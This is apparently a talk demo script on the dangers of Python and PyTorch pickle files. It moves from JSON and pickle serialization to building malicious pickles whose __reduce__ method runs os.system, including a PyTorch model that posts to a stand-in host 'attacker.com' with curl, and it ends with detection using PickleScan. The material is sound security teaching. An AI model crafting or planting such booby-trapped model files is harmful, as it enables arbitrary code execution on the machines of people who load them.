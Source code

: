 # Live Demo Script: The Dangers of PyTorch Pickles

## Introduction
"Today, I'm going to show you just how dangerous PyTorch pickle files can be. We'll start with the basics of serialization in Python, explore how pickle works under the hood, and then demonstrate how attackers can exploit this mechanism to execute arbitrary code. Finally, I'll introduce you to a tool that can help detect malicious pickle files. Let's dive in."

---

## Part 1: Comparing Pickle and JSON Serialization

### Step 1: Basic Python Dictionary Serialization
**Demo:**
1. Create a Python dictionary:
   ```python
   data = {"name": "Alice", "age": 30, "role": "engineer"}
   ```
2. Serialize it using JSON:
   ```python
   import json
   json_data = json.dumps(data)
   print(json_data)
   ```
3. Serialize it using Pickle:
   ```python
   import pickle
   pickle_data = pickle.dumps(data)
   print(pickle_data)
   ```
4. Compare output:
    - JSON is human-readable.
    - Pickle is binary and opaque.

**Explanation:** JSON is safe and cross-language, while Pickle is Python-specific and can execute arbitrary code when deserializing.

---

## Part 2: Understanding Pickle Internals

### Step 2: Disassembling Pickle
**Demo:**
1. Use `pickletools` to analyze the Pickle serialization:
   ```python
   import pickletools
   pickletools.dis(pickle_data)
   ```
2. Explain opcodes:
    - `PROTO`: Protocol version.
    - `BINUNICODE`: Encoded strings.
    - `SETITEM`: Assign key-value pairs.

**Explanation:** Pickle opcodes define how objects are reconstructed when unpickling. Certain opcodes, like `GLOBAL`, can be dangerous.

---

## Part 3: Why Pickle Is Useful

### Step 3: Serializing a Class
**Demo:**
1. Define a Python class:
   ```python
   class Person:
       def __init__(self, name, age):
           self.name = name
           self.age = age

   p = Person("Alice", 30)
   ```
2. Serialize it:
   ```python
   pickle_person = pickle.dumps(p)
   ```
3. Deserialize it:
   ```python
   loaded_person = pickle.loads(pickle_person)
   print(loaded_person.name, loaded_person.age)
   ```

**Explanation:** Pickle is useful for saving and loading complex Python objects, but it has serious security risks.

---

## Part 4: Exploiting Pickle

### Step 4: Creating a Malicious Pickle
**Demo:**
1. Define a malicious class:
   ```python
   import os

   class Malicious:
       def __reduce__(self):
           return (os.system, ("echo Hacked!",))
   ```
2. Serialize and deserialize:
   ```python
   evil_pickle = pickle.dumps(Malicious())
   pickle.loads(evil_pickle)  # Executes "echo Hacked!"
   ```

**Explanation:** The `__reduce__` method allows arbitrary code execution when unpickling.

---

## Part 5: PyTorch and Pickle

### Step 5: Examining a PyTorch Model File
**Demo:**
1. Create a simple PyTorch model:
   ```python
   import torch
   import torch.nn as nn

   class SimpleModel(nn.Module):
       def __init__(self):
           super().__init__()
           self.fc = nn.Linear(10, 1)

   model = SimpleModel()
   torch.save(model, "model.pth")
   ```
2. Open the `model.pth` file:
   ```bash
   unzip -l model.pth
   ```
    - Show that it's a ZIP file containing a pickle inside.

**Explanation:** PyTorch uses pickle internally, making models a potential attack vector.

---

## Part 6: Weaponizing a PyTorch Model

### Step 6: Adding a Malicious Payload
**Demo:**
1. Modify the `SimpleModel` class:
   ```python
   class MaliciousModel(nn.Module):
       def __reduce__(self):
           import os
           return (os.system, ("curl -X POST http://attacker.com/pwn",))
   ```
2. Save the model:
   ```python
   torch.save(MaliciousModel(), "malicious_model.pth")
   ```
3. When unpickled, the attacker's command runs.

**Explanation:** Attackers can craft PyTorch models that execute arbitrary code when loaded.

---

## Part 7: Detecting Malicious Pickles

### Step 7: Introducing PickleScan
**Demo:**
1. Install PickleScan:
   ```bash
   pip install picklescan
   ```
2. Scan the malicious model:
   ```python
   from picklescan.scanner import scan_file
   print(scan_file("malicious_model.pth"))
   ```
3. Show that it detects the exploit.

**Conclusion:** PickleScan helps identify threats but cannot prevent attacks entirely. Always treat untrusted PyTorch models as potential threats!

---

## Closing Remarks
"We've seen how Pickle works, how it's used in PyTorch, and how attackers can exploit it. Always be cautious when loading pickle files, and use tools like PickleScan to detect threats. If you have any questions, now's the time!"


